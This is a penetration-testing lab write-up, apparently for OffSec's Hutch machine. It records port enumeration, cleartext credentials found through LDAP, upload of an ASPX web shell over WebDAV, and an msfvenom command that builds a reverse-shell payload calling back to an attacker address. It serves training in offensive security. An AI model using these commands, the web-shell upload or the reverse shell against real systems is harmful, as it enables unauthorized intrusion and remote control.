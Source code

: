## Port 53 - Domain (Simple DNS Plus)
- Identified "Simple DNS Plus" - potentially vulnerable to CVE-2020-1350
	- https://datafarm-cybersecurity.medium.com/exploiting-sigred-cve-2020-1350-on-windows-server-2012-2016-2019-80dd88594228
## Port 80 - HTTP (Microsoft IIS)
- Navigated to `http://192.168.171.122:80` and identified default page for `Microsoft IIS` service
![[Cybersecurity-Resources/images/Pasted image 20241027170248.png]]
## Port 88 -  Kerberos (Microsoft Windows Kerberos)
No enumeration conducted
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Microsoft Windows netbios-ssn)
No enumeration conducted
## Port 389 & 3268/9 - LDAP (Microsoft Windows Active Directory)
- Ran `sudo nmap -n -sV -Pn -script 'ldap* and not brute' 192.168.171.122` to identify potenial scripts for LDAP - identified Domain Name `hutch.offsec`
![[Cybersecurity-Resources/images/Pasted image 20241027175147.png]]
- Ran `ldapsearch -v -x -b 'DC=hutch,DC=offsec' -H 'ldap://192.168.171.122' '(objectclass=*)'` to identify users
- Identified clear text credentials for `fmcsorley:CrabSharkJellyfish192` in user description
![[Cybersecurity-Resources/images/Pasted image 20241027175717.png]]
## Port 464 - Kerberos (Password Change)
No enumeration conducted
## Port 593 - ncacn_http
No enumeration conducted
## Port 636 - tcpwrapped
No enumeration conducted
## Port 5985 - http (Microsoft HTTPAPI httpd 2.0)
- Navigated to `192.168.171.122:5985` and identified `404 Not Found` page
![[Cybersecurity-Resources/images/Pasted image 20241027172925.png]]
## Ports 49666/8, 49674/6, 49692, 49756,  - MSRPC (Windows RPC)

---
# Exploitation
## Malicious File Upload
- Ran `cadaver http://192.168.171.122` & logged in with credentials `fmcsorley:CrabSharkJellyfish192` to access `WebDav`
- Ran `put /usr/share/webshells/aspx/cmdasp.aspx` to upload command web shell
![[Cybersecurity-Resources/images/Pasted image 20241027181048.png]]
- Navigated to `http://192.168.171.122/cmdasp.aspx` to confirm upload and test command execution
![[Cybersecurity-Resources/images/Pasted image 20241027181112.png]]
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.199 LPORT=4444 -f exe > revshell2.exe` to create reverse shell executable